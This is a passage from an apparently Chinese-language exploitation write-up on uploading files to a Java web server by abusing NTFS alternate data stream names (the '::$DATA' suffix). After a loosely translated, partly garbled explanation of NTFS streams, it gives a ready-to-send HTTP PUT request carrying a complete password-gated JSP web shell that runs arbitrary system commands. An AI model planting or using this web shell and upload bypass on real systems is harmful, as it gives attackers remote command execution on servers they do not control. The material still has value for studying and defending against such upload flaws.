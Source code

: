 #### 漏洞利用

##### 上传姿势一：

参考思路:微软 MSDN 上关于 NTFS Streams 的一段资料[https://msdn.microsoft.com/en-us/library/dn393272.aspx](https://msdn.microsoft.com/en-us/library/dn393272.aspx)

大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流 - 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

```
Copy to clipboard<filename>：<stream name>：<stream type> 
```

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型$ INDEX_ALLOCATION。$ INDEX_ALLOCATION 类型（目录流）的默认流名称是$ I30。（这与$ DATA 流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

```
Copy to clipboardDir C：\ Users
Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
Dir C：\ Users :: $ INDEX_ALLOCATION 
```

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用 DIR 命令的/ R 选项从命令行观察。

payload:

```
PUT /shell.jsp::$DATA HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 662  
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp  
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%> 
```

我们利用 burpsuite 来发送我们的 payload

![image](img/ce73e76598d5f314b1cd6f1c0f73fcfe.png)
